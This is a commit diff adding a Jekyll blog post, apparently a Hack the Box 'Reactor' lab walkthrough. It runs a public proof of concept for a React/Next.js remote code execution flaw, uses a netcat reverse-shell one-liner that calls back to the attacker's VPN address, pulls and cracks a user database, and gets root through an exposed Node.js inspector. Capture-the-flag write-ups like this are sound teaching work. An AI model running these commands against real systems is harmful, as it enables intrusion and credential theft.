

Before and after one commit to dorosch/dorosch.github.io, a Jekyll site: the page built from tags.html, in a window 1280 px wide. Shown: the whole page at 96% size, without its empty margins (163-1116 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1221 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Added _posts/2026-08-14-hack-the-box-machine-reactor

````diff
--- a/_posts/2026-08-14-hack-the-box-machine-cap/2026-08-14-hack-the-box-machine-cap.md
+++ b/_posts/2026-08-14-hack-the-box-machine-cap/2026-08-14-hack-the-box-machine-cap.md
@@ -1,8 +1,8 @@
 ---
 title: Hack the box - Cap
-date: 2024-03-26 12:00:00 +00:00
+date: 2026-08-14 12:00:00 +00:00
 tags: [htb, linux, hack]
-description: Hack the box walkthrough
+description: Hack the box -cap walkthrough
 ---
 
 # Cap
--- /dev/null
+++ b/_posts/2026-08-14-hack-the-box-machine-reactor/2026-08-14-hack-the-box-machine-reactor.md
@@ -0,0 +1,206 @@
+---
+title: Hack the box - Reactor
+date: 2026-08-14 12:00:00 +00:00
+tags: [htb, linux, hack]
+description: Hack the box - reactor walkthrough
+---
+
+# Reactor
+
+## Exploring
+
+Since this is an easy machine, start with a quick port scan:
+
+```shell
+$ nmap -F 10.129.103.199
+PORT     STATE SERVICE
+22/tcp   open  ssh
+3000/tcp open  ppp
+
+$ nmap -A 10.129.103.199 -p 3000
+PORT     STATE SERVICE VERSION
+3000/tcp open  ppp?
+| fingerprint-strings:
+|   GetRequest:
+|     HTTP/1.1 200 OK
+|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
+|     x-nextjs-cache: HIT
+|     x-nextjs-prerender: 1
+|     x-nextjs-stale-time: 4294967294
+|     X-Powered-By: Next.js
+...
+```
+
+A web application is exposed on port 3000. At first glance, it does not provide
+much functionality.
+
+<img src="/assets/img/2026-08-14-hack-the-box-machine-reactor/webapp.png">
+
+## User flag
+
+The first step is to identify the technologies and, more importantly, their
+exact versions. This is useful because known vulnerabilities are often tied
+to specific framework versions.
+
+By inspecting the JavaScript bundles served by the application and searching
+for version strings, we can identify both React and Next.js:
+
+```javascript
+...
+ey = cu.inject({
+    bundleType: 0,
+    version: "19.0.0-rc-66855b96-20241106",
+    rendererPackageName: "react-dom",
+    ...
+}),
+...
+window.next = {
+    appDir: !0,
+    version: "15.0.3"
+},
+```
+
+After a quick search, a vulnerability matching the version of `React`[^1] and
+`Next.js`[^2] was found `React2Shell`[^3].
+
+```shell
+$ wget https://gist.githubusercontent.com/byt3n33dl3/be855564f3fb24303d74f4380519a0d1/raw/23974d507a28047fef99b6b8235a9eabf24258c1/CVE-2025-55182.py
+$ python3 CVE-2025-55182.py -t "http://10.129.103.199:3000" -c "id"
+[+] SUCCESS!
+
+uid=999(node) gid=988(node) groups=988(node)
+```
+
+To make enumeration easier, I used a reverse shell so that the compromised
+application process would connect back to my HTB VPN address.
+
+```shell
+$ ifconfig
+...
+tun0:                  # Your vpn interface
+    inet 10.10.17.215  # Your ip address in vpn network
+```
+
+I use revshell[^4] for generate payload and sort through them in order until it fits.
+
+```shell
+$ python3 CVE-2025-55182.py \
+    -t "http://10.129.103.199:3000" \
+    -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.17.215 9001 >/tmp/f"
+```
+
+After some time the connection was received successfully and I run http server
+for download files using my browser `http://10.129.103.199:9002`:
+
+```shell
+$ nc -lvnp 9001
+Listening on 0.0.0.0 9001
+Connection received on 10.129.103.199 36596
+node@reactor:/opt/reactor-app$ python3 -m http.server --bind 0.0.0.0 9002
+python3 -m http.server --bind 0.0.0.0 9002
+10.10.17.215 - - [14/Aug/2026 12:57:28] "GET / HTTP/1.1" 200 -
+10.10.17.215 - - [14/Aug/2026 12:57:30] "GET /reactor.db HTTP/1.1" 200 -
+```
+
+The next step is to enumerate the application and look for sensitive data.
+One interesting file is the application's SQLite database, `reactor.db`.
+
+```shell
+$ sqlite3 reactor.db
+sqlite> .tables
+sensor_logs  users
+sqlite> select * from users;
+1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
+2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
+
+$ hashid 39d97110eafe2a9a68639812cd271e8e
+Analyzing '39d97110eafe2a9a68639812cd271e8e'
+[+] MD5
+```
+
+The hash can be recovered using an appropriate password-recovery technique
+(I usually start from an online services).
+
+<img src="/assets/img/2026-08-14-hack-the-box-machine-reactor/password.png">
+
+The resulting password can then be tested against the SSH service:
+
+```shell
+$ ssh -o IdentitiesOnly=yes engineer@10.129.103.199
+engineer@10.129.103.199's password:
+ ____  _____    _    ____ _____ ___  ____
+|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \
+| |_) |  _|   / _ \| |     | || | | | |_) |
+|  _ <| |___ / ___ \ |___  | || |_| |  _ <
+|_| \_\_____/_/   \_\____| |_| \___/|_| \_\
+
+    ReactorWatch Core Monitoring System
+    Nuclear Dynamics Corp. - Site 7
+
+    AUTHORIZED PERSONNEL ONLY
+engineer@reactor:~$ ls -l
+-rw-r----- 1 root engineer 33 Aug 14 12:00 user.txt
+```
+
+## Root flag
+
+With an SSH foothold established, the next step is local privilege escalation
+enumeration. I used Linux Smart Enumeration (LSE):
+
+```shell
+$ wget https://github.com/diego-treitos/linux-smart-enumeration/releases/download/4.14nw/lse.sh
+$ scp -o IdentitiesOnly=yes /home/user/Projects/HTB/reactor/lse.sh engineer@10.129.103.199:/tmp
+lse.sh                           100%   54KB 232.2KB/s   00:00
+
+$ ssh -o IdentitiesOnly=yes engineer@10.129.103.199
+engineer@reactor:~$ chmod +x /tmp/lse.sh
+engineer@reactor:~$ /tmp/lse.sh
+If you know the current user password, write it here to check sudo privileges: ****
+
+...
+==============================================================( processes )=====
+[i] pro000 Waiting for the process monitor to finish....................... yes!
+[i] pro001 Retrieving process binaries..................................... yes!
+[i] pro002 Retrieving process users........................................ yes!
+[!] pro010 Can we write in any process binary?............................. nope
+[*] pro020 Processes running with root permissions......................... yes!
+[*] pro030 Processes running by non-root users with shell.................. yes!
+
+engineer@reactor:~$ ps aux
+...
+root        1375  0.0  1.1 1067016 46564 ?       Ssl  11:59   0:00 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime
+```
+
+The `/opt/uptime` Node.js application is running as root, and Node.js has been
+started with the Inspector enabled: `--inspect=127.0.0.1:9229`.
+
+The Inspector is bound to `127.0.0.1`, so it is not directly reachable from the
+attacking machine. However, because we already have SSH access to the host, we
+can use SSH local port forwarding to expose the remote loopback port locally:
+
+```shell
+$ ssh -o IdentitiesOnly=yes -L 9229:127.0.0.1:9229 engineer@10.129.103.199
+```
+
+After forwarding the port, the Inspector can be accessed locally through the
+browser's developer tools.
+
+Because `/opt/uptime` is running as root, JavaScript executed in that process
+inherits the privileges of the root-owned process.
+
+<img src="/assets/img/2026-08-14-hack-the-box-machine-reactor/devtools.png">
+
+```javascript
+> require("fs").readdirSync("/root")
+['.bash_history', ..., 'root.txt']
+> require("fs").readFileSync("/root/root.txt", "utf8")
+```
+
+---
+
+## References
+
+[^1]: [RCE React server: CVE-2025-55182](https://nextjs.org/blog/CVE-2025-66478)
+[^2]: [Next.js Security Advisory: CVE-2025-66478](https://nextjs.org/blog/CVE-2025-66478)
+[^3]: [CVE-2025-55182 POC](https://gist.github.com/byt3n33dl3/be855564f3fb24303d74f4380519a0d1)
+[^4]: [Reverse shell generator](https://www.revshells.com/)
````
Also changed, not shown: assets/img/2026-08-14-hack-the-box-machine-reactor/devtools.png (added), assets/img/2026-08-14-hack-the-box-machine-reactor/password.png (added), assets/img/2026-08-14-hack-the-box-machine-reactor/webapp.png (added).
